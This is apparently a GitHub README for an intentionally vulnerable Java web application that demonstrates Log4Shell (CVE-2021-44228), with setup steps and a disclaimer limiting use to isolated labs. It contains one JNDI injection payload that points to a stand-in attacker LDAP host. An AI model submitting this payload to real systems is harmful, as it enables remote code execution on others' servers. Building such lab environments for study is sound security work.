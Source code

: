 # CVE-2021-44228 Log4Shell WebApp Demo

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- Simple HTML form
- Docker or manual Java support

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Docker Alternative

If you prefer Docker:

```bash
docker build -t log4shell-webform .
docker run -p 8080:8080 log4shell-webform
```

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Main.java
├── log4j2.xml
├── Dockerfile
├── setup.sh
├── README.md
└── libs/ (downloaded automatically)
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
